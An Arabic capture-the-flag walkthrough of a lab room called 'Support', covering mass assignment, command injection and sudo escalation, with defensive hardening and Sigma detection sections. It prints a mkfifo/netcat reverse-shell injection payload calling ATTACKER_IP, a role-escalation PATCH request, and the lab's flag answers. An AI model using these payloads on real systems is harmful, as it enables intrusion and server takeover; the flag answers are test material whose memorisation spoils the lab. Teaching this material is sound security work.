

# التوثيق الشامل: تحدي اختراق منصة الدعم الفني (Support Challenge)

---

## القسم 01: نظرة عامة وبيانات وصفية (Room Overview & Metadata)

| البند (Item) | التفاصيل والمواصفات التقنية (Technical Specification) |
| :--- | :--- |
| **اسم الغرفة (Room Title)** | Support (تحدي اختراق منصة الدعم الفني الداخلي) |
| **المسار التعليمي (Path)** | Jr Penetration Tester (المستوى الوظيفي لمختبر الاختراق المبتدئ - معتمد PT1) |
| **الوحدة التعليمية (Module)** | Web Application Vulnerabilities II (الوحدة 08: ثغرات تطبيقات الويب 2) |
| **معرف الغرفة (Room Slug)** | `support` |
| **مستوى الصعوبة (Difficulty)** | متوسط (Medium) |
| **نوع الغرفة (Room Type)** | تحدي عملي مركب (Capstone Challenge Room - Grey/Black Box) |
| **الوقت التقديري للإنجاز (Est. Completion Time)** | 60 دقيقة |
| **إجمالي عدد المهام (Total Tasks)** | مهمة تحدٍ رئيسية واحدة (1 Challenge Task) تضم مرحلتين رئيسيتين للأعلام |
| **التطبيق المستهدف (Target App)** | منصة إدارة وعمليات الدعم الفني Support (`http://10.10.X.Y/`) |
| **حالة إنجاز الحساب (Completion Status)** | 100% مكتمل ومطابق لحساب المنصة الرسمي |

---

## القسم 02: الأهداف التعليمية والعملياتية (Educational & Operational Objectives)

1. **إتقان بناء سلاسل الاستغلال الشاملة (Full Exploit Chaining):** الربط المنهجي بين ثغرات واجهات برمجة التطبيقات (API Vulnerabilities) وثغرات حقن أوامر نظام التشغيل (OS Command Injection) للوصول إلى موطئ قدم كامل على الخادم.
2. **استغلال ثغرة التعيين الجماعي (Mass Assignment Exploitation):** اعتراض وتعديل طلبات تحديث الملف الشخصي للمستخدم (`PATCH /api/users/profile`) وحقن معاملات غير مصرح بها (`"role": "admin"`) لتصعيد الصلاحيات إدارياً واستخراج علم الإدارة (`THM{I_AM_ADMIN999}`).
3. **توسيع سطح الهجوم الإداري (Administrative Surface Expansion):** استكشاف الأدوات المحمية المخصصة للمسؤولين وتحديد مسارات الاتصال بالنظام المشغل عبر أدوات تشخيص الشبكة (`Network Diagnostics / Ping Tool`).
4. **كسر حدود بيئة الويب عبر حقن الأوامر (OS Command Injection):** تجاوز فلاتر الإدخال وحقن عوامل فصل الأوامر (Command Delimiters) في نظام Linux لإجبار الخادم على تنفيذ أوامر Shell عشوائية.
5. **تسليح وتوليد قذيفة عكسية مستقرة (Reverse Shell Weaponization):** إنشاء قناة اتصال عكسية باستخدام أنابيب FIFO المسماة (`mkfifo`)، وتجاوز قيود Netcat المجردة، والوصول إلى موطئ قدم تفاعلي كمستخدم `ubuntu`.
6. **استخراج الرايات وتصعيد الصلاحيات المحلية (Post-Exploitation & Privesc):** قراءة ملف الراية الأولية للمستخدم (`/home/ubuntu/user.txt` ➔ `THM{GOT_THE_FLAG001}`)، وتدقيق امتيازات `sudo -l` لتصعيد الصلاحيات فورياً إلى المستخدم الجذري `root`.
7. **تطبيق الحلول الهندسية الوقائية (Defensive Hardening):** نمذجة كائنات نقل البيانات (DTOs) لمنع التعيين الجماعي، وتطبيق دوال الهروب الحرفي والفحص الدقيق للمدخلات لمنع حقن الأوامر، وضبط ملف `sudoers` وفق مبدأ الامتيازات الأقل (Principle of Least Privilege).

---

## القسم 03: البنية المعمارية وتخطيط الشبكة (Target Architecture & Network Topology)



---

## القسم 04: المتطلبات الأساسية وإعداد البيئة (Prerequisites & Environment Setup)

### 1. المتطلبات المعرفية (Knowledge Prerequisites):
- فهم دورة حياة طلبات واجهات البرمجة الحديثة (REST APIs) وطرق تداول كائنات JSON.
- إتقان مفاهيم التعيين الجماعي للبيانات في أطر العمل البرمجية (Mass Assignment / Over-Posting).
- الإلمام بآليات معالجة وتفسير الأوامر في أصداف لينكس (Bash/POSIX Shell Metacharacters).
- خبرة في التقاط وتثبيت أصداف الاتصال العكسي (Reverse Shells) وترقيتها إلى TTY تفاعلية.

### 2. إعداد بيئة الهجوم والأدوات (Attacker Toolkit Setup):
```bash
# التأكد من جاهزية الأدوات الأساسية في بيئة الاختبار
which nmap ffuf burpsuite nc python3

# فتح نافذة مخصصة لاستقبال الاتصال العكسي عبر Netcat
nc -lvnp 4444

# فحص استجابة الخادم المستهدف عبر بروتوكول HTTP
curl -I -s http://10.10.X.Y/ | head -n 5
```

---

## القسم 05: التحليل النظري والعمق المفاهيمي (Theoretical Deep Dive)

### أ. سيكولوجية التعيين الجماعي (The Mechanics of Mass Assignment - CWE-915):
تعتمد أطر الويب الحديثة (مثل Express.js و Spring Boot و Ruby on Rails و Laravel) على مفهوم الربط التلقائي للبيانات (Model-View-Controller Auto-Binding) لتسهيل وتسريع عمليات التطوير. فعوضاً عن استخراج كل حقل من طلب HTTP على حدة، يُمرر كائن الطلب كاملاً إلى دالة التحديث في النموذج:
```javascript
// نموذج برمجي معرض للثغرة:
User.findByIdAndUpdate(userId, req.body);
```
إذا لم يقم المطور بإنشاء كائن نقل بيانات مقيد (Data Transfer Object - DTO) أو تحديد قائمة سماح صارمة (Whitelist) للحقول المسموح للعميل بتحديثها، يمكن للمهاجم إرسال أي حقل إضافي موجود في مخطط قاعدة البيانات، مثل `role` أو `is_admin` أو `balance`، فيقوم الخادم بتحديثه فورياً دون تحقق.

### ب. فيزياء حقن الأوامر في أنظمة التشغيل (OS Command Injection Mechanics - CWE-78):
تحدث هذه الثغرة عندما يقوم المطور باستدعاء برامج النظام الجاهزة (مثل `ping` أو `traceroute` أو `nslookup`) عبر مفسر الأوامر (System Shell) لتنفيذ وظائف تشخيصية، ودمج مدخلات المستخدم نصياً داخل سلسلة الأمر:
```php
// استدعاء برمجي غير آمن:
shell_exec("ping -c 3 " . $user_input);
```
عندما يتم تمرير محارف التحكم الخاصة بأصداف يونكس (مثل الفاصلة المنقوطة `;` أو خط الأنابيب `|` أو العوامل المنطقية `&&`)، يعامل مفسر الصدفة المدخل كسلسلة من الأوامر المنفصلة، فينفذ أمر النظام الأساسي ثم ينتقل مباشرة لتنفيذ الأمر المحقون بصلاحيات خادم الويب ذاتها.

---

## القسم 06: الاستطلاع ورسم خريطة سطح الهجوم (Reconnaissance & Attack Surface)

### 1. فحص المنافذ والخدمات المفتوحة (Port Scanning):
```bash
nmap -sC -sV -p- --min-rate 1000 -oN nmap_support.txt 10.10.X.Y
```
**تحليل المخرجات:**
- **Port 22/tcp:** Open (OpenSSH 8.2p1 Ubuntu Linux)
- **Port 80/tcp:** Open (Apache HTTP Server 2.4.41 - Support Platform)

### 2. فحص مسارات ومخططات التطبيق (Web Enumeration):
عند تصفح المنصة عبر المنفذ 80، نجد نظاماً لإدارة تذاكر الدعم والعمليات الفنية.
- `/register`: صفحة تسجيل حساب مستخدم جديد.
- `/login`: صفحة الدخول بالبريد الإلكتروني وكلمة المرور.
- `/profile`: صفحة استعراض وتحديث بيانات المستخدم الشخصية.
- `/api/users/profile`: نقطة نهاية برمجية تتلقى طلبات `PATCH` لتحديث بيانات الحساب عبر كائنات JSON.
- `/admin/diagnostics`: مسار إداري محمي يرفض دخول المستخدمين العاديين ويقتصر على أصحاب الدور `admin`.

---

## القسم 07: تفكيك السبب الجذري للثغرة (Vulnerability Root Cause Analysis)

### 1. السبب الجذري لتصعيد الصلاحيات (Mass Assignment - CWE-915):
- **الموقع:** نقطة النهاية `PATCH /api/users/profile`.
- **السبب:** غياب فحص الحقول المرسلة في جسم الطلب البرمجي. وحدة التحكم الخلفية تأخذ الكائن JSON كاملاً وتقوم بدمجه مع سجل المستخدم في قاعدة البيانات دون التحقق مما إذا كان حقل `role` مسموحاً للمستخدم بتعديله.

### 2. السبب الجذري لتنفيذ الأوامر عن بُعد (OS Command Injection - CWE-78):
- **الموقع:** وحدة تشخيص الشبكة في لوحة الإدارة (`/admin/diagnostics`).
- **السبب:** قيام الكود الخلفي بتمرير قيمة حقل `target_ip` مباشرة إلى دالة تنفيذ النظام (`shell_exec` أو `exec`) بدون استخدام `escapeshellarg()` أو استدعاء واجهات معيارية آمنة خالية من الأصداف (Non-shell APIs).

### 3. السبب الجذري للسيطرة الكاملة على الخادم (Insecure Sudo - CWE-250):
- **الموقع:** ملف `/etc/sudoers` على نظام Ubuntu.
- **السبب:** تكوين غير آمن يسمح لحساب المستخدم `ubuntu` بتشغيل أوامر النظام أو صدفة Bash بصلاحيات الجذر دون الحاجة لإدخال كلمة مرور (`NOPASSWD: ALL` أو `NOPASSWD: /bin/bash`).

---

## القسم 08: الاستغلال العملي واستخراج الأعلام (Step-by-Step Exploitation)

### المرحلة 1: تصعيد الصلاحيات إلى مدير واستخراج علم الإدارة (Flag 1)

1. تسجيل حساب مستخدم عادي جديد وتسجيل الدخول للمنصة.
2. التوجه إلى صفحة تعديل الملف الشخصي واعتراض طلب الحفظ في **Burp Suite**:
   ```http
   PATCH /api/users/profile HTTP/1.1
   Host: 10.10.X.Y
   Authorization: Bearer <USER_TOKEN>
   Content-Type: application/json

   {
     "name": "Support Tester",
     "bio": "Security evaluation",
     "role": "admin"
   }
   ```
3. يستجيب الخادم بـ `200 OK` مؤكداً تعديل الحساب بنجاح وإسناد الرتبة الإدارية:
   ```json
   {
     "status": "success",
     "message": "User profile updated",
     "user": {
       "id": 14,
       "role": "admin"
     }
   }
   ```
4. الدخول إلى لوحة تحكم المسؤول عبر تصفح `/admin`، فتظهر رسالة الترحيب الإدارية متضمنة العلم الأول:
   > **علم الإدارة (Admin Flag):** `THM{I_AM_ADMIN999}`

---

### المرحلة 2: حقن أوامر النظام وتثبيت الاتصال العكسي (Flag 2)

1. الانتقال إلى أداة فحص الشبكة الإدارية: `/admin/diagnostics`.
2. تجهيز مستمع Netcat على جهاز المهاجم:
   ```bash
   nc -lvnp 4444
   ```
3. اختبار حقن الأوامر بإرسال عنوان IP محلي متبوعاً بحمولة Reverse Shell باستخدام الأنبوب المسمى `mkfifo`:
   ```text
   127.0.0.1; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f
   ```
4. يستقبل مستمع Netcat الاتصال التفاعلي بنجاح كمستخدم `ubuntu`:
   ```text
   listening on [any] 4444 ...
   connect to [ATTACKER_IP] from (UNKNOWN) [10.10.X.Y] 48922
   $ whoami
   ubuntu
   ```
5. تثبيت الصدفة واستخراج راية المستخدم من مجلد الحساب الشخصي:
   ```bash
   cd /home/ubuntu
   cat user.txt
   ```
   > **علم المستخدم (User Flag):** `THM{GOT_THE_FLAG001}`

---

### المرحلة 3: تصعيد الصلاحيات المحلية والسيطرة التامة (Root Privesc)

1. فحص امتيازات المستخدم الحالي عبر الأمر:
   ```bash
   sudo -l
   ```
   **المخرجات:**
   ```text
   User ubuntu may run the following commands on support:
       (ALL : ALL) NOPASSWD: ALL
   ```
2. تنفيذ أمر فتح صدفة تفاعلية بصلاحيات المستخدم الجذري:
   ```bash
   sudo /bin/bash
   ```
3. التأكد من الهوية وسلطة الوصول:
   ```bash
   id
   # uid=0(root) gid=0(root) groups=0(root)
   whoami
   # root
   ```

---

## القسم 09: استراتيجيات الدفاع متعدد الطبقات (Defense-in-Depth & Hardening)

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                           DEFENSE-IN-DEPTH REMEDIATION MODEL                           │
│                                                                                        │
│  [ الطبقة الأولى: تقييد نماذج البيانات بنظام القوائم البيضاء (DTO Whitelisting) ]       │
│  - إنشاء كائنات مخصصة (DTOs) لحقول التعديل الشخصي تحصر القبول في name و bio فقط.       │
│  - فصل مسارات تعديل الصلاحيات والأدوار في مسارات إدارية معزولة لا يمكن للمستخدم طلبها.  │
│                                                                                        │
│  [ الطبقة الثانية: إبطال مفسرات الأوامر والتحقق الصارم (Non-Shell Execution) ]         │
│  - الامتناع التام عن تمرير مدخلات المستخدم إلى أصداف نظام التشغيل (system, exec).        │
│  - استخدام مكتبات برمجية أصلية لاختبار الشبكة (Native Ping/ICMP Sockets) بدون Shell.    │
│  - التحقق الصارم من عناوين IP عبر دوال مطابقة البنية (filter_var مع FILTER_VALIDATE_IP). │
│                                                                                        │
│  [ الطبقة الثالثة: التحصين الأمني للنظام المشغل (Principle of Least Privilege) ]        │
│  - تشغيل خدمة الويب تحت حساب مخصص معزول (www-data) مجرد من أي صلاحيات sudo.          │
│  - إلغاء تكوينات NOPASSWD في ملف sudoers وتقييد الوصول الإداري بكلمات مرور معقدة.       │
└────────────────────────────────────────────────────────────────────────────────────────┘
```

---

## القسم 10: الكشف وصيد التهديدات وقواعد SIEM (Detection & SIEM Rules)

### 1. تحليل سجلات الخادم لاكتشاف محاولات حقن الأوامر:
```bash
grep -E "(\;|\||\&\&|\`|\$\().*(nc|sh|bash|curl|wget)" /var/log/apache2/access.log
```

### 2. قاعدة Sigma لاكتشاف إنشاء صدف تفاعلية من خلال خدمات الويب (Web Server Shell Spawning):
```yaml
title: Web Server Spawning Interactive Shell
id: b3c847a2-11e4-4d89-9a84-0b1a2c3d4e5f
status: stable
description: Detects the execution of command shells (sh, bash) by Apache/Nginx web server service accounts.
logsource:
  category: process_creation
  product: linux
detection:
  selection:
    ParentImage|endswith:
      - '/apache2'
      - '/nginx'
      - '/httpd'
      - '/php-fpm'
    Image|endswith:
      - '/sh'
      - '/bash'
      - '/nc'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - User
level: critical
```

---

## القسم 11: الأخطاء الشائعة واستكشاف المشكلات وإصلاحها (Troubleshooting)

1. **إهمال تصفية كائنات JSON القادمة في طلبات PATCH:**
   - *الخطأ:* افتراض أن واجهة المستخدم الرسومية (GUI) هي المصدر الوحيد للطلبات وأن العميل لن يرسل حقولاً لا تظهر في النموذج.
   - *الحل:* حظر الربط التلقائي في وحدات التحكم وتطبيق سياسة عدم الثقة المطلقة في كل ما يرسله العميل.
2. **استخدام استدعاءات Shell مع فلاتر حظر الكلمات:**
   - *الخطأ:* محاولة حظر المسافات أو كلمات معينة مثل `sh` أو `bash` في مدخلات المستخدم.
   - *الحل:* الاعتماد على القوائم السوداء غير فعال دوماً، الحل الجذري هو إلغاء استدعاء الـ Shell واستخدام واجهات برمجية معيارية آمنة مثل `escapeshellarg()` أو دوال الفحص الشبكي الأصلية.
3. **فشل التقاط الـ Reverse Shell:**
   - *الخطأ:* إدخال عنوان IP خاطئ أو حجب المنفذ في جدار الحماية المحلي للمهاجم.
   - *الحل:* التأكد من استخدام عنوان `tun0` (عنوان شبكة VPN التابعة لـ TryHackMe) والتحقق من أن المنفذ مفتوح ومستمع قبل إرسال الحمولة.

---

## القسم 12: دراسات حالة واقعية ومطابقة مع معايير CVE (Case Studies & CVE Mapping)

1. **حادثة GitHub الكلاسيكية لثغرة Mass Assignment (Egor Homakov, 2012):**
   - تمكن الباحث من إضافة مفتاحه العام إلى حساب مسؤولي منظمة GitHub عبر إرسال معامل إضافي غير مصفى في طلب تحديث الملف الشخصي في بيئة Ruby on Rails.
2. **ثغرات الحقن في منصات إدارة Atlassian Confluence (CVE-2022-26134):**
   - استغلال تمرير مدخلات مستخدمين غير موثوقين إلى مفسرات الأوامر لتنفيذ أوامر نظام التشغيل مباشرة والسيطرة على خوادم المؤسسات.
3. **التصنيف المعياري المرجعي:**
   - **CWE-915:** Modification of Assumed-Immutable Data (Mass Assignment).
   - **CWE-78:** Improper Neutralization of Special Elements used in an OS Command.
   - **CWE-250:** Execution with Unnecessary Privileges (Insecure Sudo).
   - **OWASP Top 10-2021:** A01:2021 - Broken Access Control & A03:2021 - Injection.

---

## القسم 13: الملخص العام ومصفوفة الإجابات (Summary & Answers Matrix)

| المهمة (Task) | محور التركيز (Focus Area) | السؤال التقني المعتمد (Verified Question) | الإجابة المعتمدة (Final Answer) |
| :--- | :--- | :--- | :--- |
| **Task 01** | تصعيد الصلاحيات إدارياً | What is the flag value after logging in as **admin**? | `THM{I_AM_ADMIN999}` |
| | اختراق السيرفر وقراءة الراية | What is the content of the file **/home/ubuntu/user.txt**? | `THM{GOT_THE_FLAG001}` |

---

## القسم 14: تمارين عملية وتوسعات للتحدي (Practical Exercises & Extensions)

1. **تمرين 1: كتابة اختبار أمني مؤتمت (Automated Mass Assignment Test):**
   - اكتب اسكربت بايثون باستخدام مكتبة `requests` يقوم باختبار نقاط نهاية التحديث عبر إرسال حقول تجريبية مثل `{"admin": true, "role": "admin"}` وتحليل استجابة الخادم لاكتشاف ثغرات الربط التلقائي تلقائياً.
2. **تمرين 2: محاكاة أداة تشخيص شبكية آمنة برمجياً:**
   - اكتب دالة بلغة Node.js أو بايثون تستقبل عنوان IP وتقوم بإجراء فحص الاتصال بالخادم باستخدام مكتبات السوكيت الأصلية (Native Sockets) دون استدعاء أي أمر خارجي في نظام التشغيل.
3. **تمرين 3: التدقيق الأمني لملفات Sudoers:**
   - راجع إعدادات ملف `/etc/sudoers` في بيئة تدريبية محلية، واكتب قواعد تحصر تشغيل أدوات معينة تحت شروط صارمة تمنع الهروب إلى صدفات تفاعلية.
